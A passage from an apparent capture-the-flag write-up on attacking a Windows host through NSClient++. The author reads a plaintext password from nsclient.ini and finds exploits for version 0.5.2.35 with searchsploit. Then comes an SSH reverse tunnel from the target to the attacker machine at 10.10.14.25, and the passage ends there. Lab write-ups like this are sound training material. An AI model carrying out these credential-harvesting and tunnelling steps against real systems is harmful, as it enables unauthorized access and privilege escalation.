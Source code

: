 ```
d-----       11/11/2019   6:52 PM                Windows Photo Viewer
d-----        9/15/2018  12:19 AM                Windows Portable Devices
d-----        9/15/2018  12:19 AM                Windows Security
d-----        2/28/2022   6:25 PM                WindowsPowerShell
```

this def stands out:
 NSClient++ seems to be 3rd party software, maybe i smell vulnerable????

I have no idea what this is so i will google and see what we find:

with google i found that the password to the client usually sits in a file called:
`nsclient.ini`

i looked and there it was:
```
cat .\nsclient.ini
# If you want to fill this file with all available options run the following command: 
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT 

; Undocumented key
allowed hosts = 127.0.0.1
...
```

also was able to find the version of the software:
```
.\nscp.exe --version
NSClient++, Version: 0.5.2.35 2018-01-28, Platform: x64
```

lets check if it is vuln....

```
searchsploit nsclient             
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution                          | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation                                         | windows/local/46802.txt
```

looks like we could have hit the jackpot:

so i know that the nsclient is on 8443, but i cant reach it from my kali machine so i will tunnel it to my kali:
on kali:
```
sudo systemctl start ssh
```

on windows target:
```
ssh -N -R 8443:127.0.0.1:8443 wizardwalter@10.10.14.25
```

